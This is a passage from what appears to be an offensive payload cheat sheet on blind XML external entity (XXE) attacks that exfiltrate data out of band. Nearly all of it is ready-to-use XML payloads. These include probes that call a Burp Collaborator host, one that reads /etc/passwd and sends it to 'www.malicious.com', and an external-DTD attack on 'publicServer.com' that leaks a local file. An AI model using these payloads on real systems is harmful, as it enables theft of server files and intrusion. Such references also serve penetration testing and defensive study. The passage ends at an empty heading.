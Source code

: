 



## Exploiting Blind XXE to Exfiltrate Data Out of Band

Sometimes you won't have a result outputted in the page but you can still extract the data with an out of band attack.

### Basic Blind XXE

The easiest way to test for a blind XXE is to try to load a remote resource such as a Burp Collaborator.

```xml
<?xml version="1.0" ?>
<!DOCTYPE root [
<!ENTITY % ext SYSTEM "http://UNIQUE_ID_FOR_BURP_COLLABORATOR.burpcollaborator.net/x"> %ext;
]>
<r></r>
```

```xml
<!DOCTYPE root [<!ENTITY test SYSTEM 'http://UNIQUE_ID_FOR_BURP_COLLABORATOR.burpcollaborator.net'>]>
<root>&test;</root>
```


Send the content of `/etc/passwd` to "www.malicious.com", you may receive only the first line.

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
<!ELEMENT foo ANY >
<!ENTITY % xxe SYSTEM "file:///etc/passwd" >
<!ENTITY callhome SYSTEM "www.malicious.com/?%xxe;">
]
>
<foo>&callhome;</foo>
```

### XXE OOB Attack (Yunusov, 2013)

```xml
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE data SYSTEM "http://publicServer.com/parameterEntity_oob.dtd">
<data>&send;</data>

File stored on http://publicServer.com/parameterEntity_oob.dtd
<!ENTITY % file SYSTEM "file:///sys/power/image_size">
<!ENTITY % all "<!ENTITY send SYSTEM 'http://publicServer.com/?%file;'>">
%all;
```

### XXE OOB with DTD and PHP Filter
